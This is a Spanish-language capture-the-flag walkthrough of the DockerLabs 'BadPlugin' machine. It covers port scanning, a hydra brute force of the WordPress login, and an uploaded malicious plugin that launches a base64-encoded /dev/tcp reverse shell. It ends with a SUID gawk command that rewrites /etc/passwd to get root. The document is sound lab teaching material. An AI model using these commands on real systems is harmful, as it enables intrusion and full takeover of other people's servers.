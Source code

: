 Maquina **BadPlugin** de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio

![BadPlugin](images/badplugin/badplugin.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

(En mi caso la ip de la maquina es `192.168.1.100`)

```css
nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv 192.168.1.100 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Dec 31 20:32:14 2024 as: nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv -oN escaneo.txt 192.168.1.100
Nmap scan report for 192.168.1.100
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-12-31 20:32:14 -03 for 9s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Error Message
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:C0:A8:01:64 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 31 20:32:23 2024 -- 1 IP address (1 host up) scanned in 8.74 seconds
```

Solo vemos un puerto abierto en la maquina ubuntu:

•`Puerto 80: Apache httpd 2.4.58`

#### Fuzzing

Luego de revisar la web manualmente, no encuentro nada, por lo que me dispongo a realizar fuzzing con `gobuster`:

```css
gobuster dir -u "http://192.168.1.100" -w $seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.100
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1960]
/info.php             (Status: 200) [Size: 87184]
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.1.100/wordpress/]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.1.100/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://192.168.1.100/phpmyadmin/]
Progress: 145326 / 882240 (16.47%)
===============================================================
Finished
===============================================================
```

luego de revisar todo, veo que lo interesante es `/wordpress/`, ya que este tiene un dominio el cual es `escolares.dl`, por lo que lo agregamos al `/etc/hosts` de la siguiente manera:

```css
<IP>	escolares.dl
```

#### Wordpress intrusion

Como sabemos, wordpress tiene algunos archivos predeterminados, así que podemos ir al panel de login entrando en `http://<SINP>/wp-login.php`. Luego de probar varios usuarios, veo que el correcto es `admin`, ya que el mensaje de error dice lo siguiente:

```css
Error: la contraseña que has introducido para el nombre de usuario admin no es correcta.
```

esto significa que el usuario `admin` existe, por lo que ahora simplemente debemos hacer fuerza bruta al panel usando `hydra`. Para esto hacemos un intento de login incorrecto teniendo abiertas las devtools de firefox en la parte de network:

![Solicitud](images/badplugin/devtools.png)

como vemos en la imagen, tenemos que seleccionar la solicitud `POST`, ya que esta es la única que nos interesa. Una vez seleccionada vamos a la sección `Solicitud` y seleccionamos `Sin procesar` y ya tendremos la solicitud en crudo para pasársela a `hydra`:

```css
log=admin&pwd=asd&wp-submit=Acceder&redirect_to=http%3A%2F%2Fescolares.dl%2Fwordpress%2Fwp-admin%2F&testcookie=1
```

Finalmente, el ataque nos quedaría asi:

```css
hydra -l admin -P /opt/rockyou.txt escolares.dl http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Acceder&redirect_to=http%3A%2F%2Fescolares.dl%2Fwordpress%2Fwp-admin%2F&testcookie=1: la contraseña que has introducido para el nombre de usuario" -V
```

![Hydra](images/badplugin/hydra.png)

ahora ya tenemos la contraseña, por lo que simplemente nos logearemos.

# Intrusión

Normalmente podríamos instalar un plugin que nos permita entrar, pero como la maquina deja sin internet toda la computadora, tendremos que crear nuestro propio plugin.

#### Plugin creation

Para esto empezaremos creando un archivo llamado `shell.php` el cual contenga esto:

```php
<?php
/*
Plugin Name: Hack 172.17.0.1
Description: Reverse shell al puerto 4444 cuando se accede a http://escolares.dl/wordpress/wp-content/plugins/shell/shell.php
Version: 99999999.0
Author: maciiii___
*/
?>

<?php
system("echo 'base64prompt' | tee /tmp/shell; base64 -d /tmp/shell | bash");
?>
```

luego, ejecutaremos lo siguiente:

```css
echo "bash -c '/bin/bash -i >& /dev/tcp/<$IP>/4444 0>&1'" | base64
```

Ahí tienes que reemplazar `<$IP>` por la ip tuya y la salida ponerla en el script php en la parte que dice "base64prompt". Una vez tenemos el archivo php listo, lo metemos en un zip de la siguiente manera:

```css
zip -r shell.zip shell.php
```

luego, vamos a el wordpress, y en la sección de "Añadir Plugin", tocamos donde dice "Subir plugin" y desde ahí cargamos el que acabamos de crear. Finalmente, escuchamos por el puerto 4444:

```css
nc -nlvp 4444
```

y entramos en:

```css
http://escolares.dl/wordpress/wp-content/plugins/shell/shell.php
```

# Escalada de privilegios

### www-data

##### Enumeración de binarios con SUID

Una vez dentro y con el tratamiento de la tty realizado, procedemos a buscar binarios con el SUID activado de la siguiente manera:

```css
find / -perm -4000 2>/dev/null
```

```css
www-data@0df58f758c67:~$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gawk
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
www-data@0df58f758c67:~$ 
```

#### Binary `gawk` abuse

Como vemos en el resultado, `gawk` se encuentra en la lista, por lo cual significa que podríamos escribir archivos, ya que `gawk` es como `awk`. Para hacerlo debemos ejecutar lo siguiente:

```css
/usr/bin/gawk -F 'x' '{print $1 $NF > "/etc/passwd"}' /etc/passwd
```

esto eliminará la 'x' de root y podremos escalar ejecutando `su root` sin necesidad de contraseña.

### Root

![Root](images/badplugin/root.png)

Gracias por leer ;)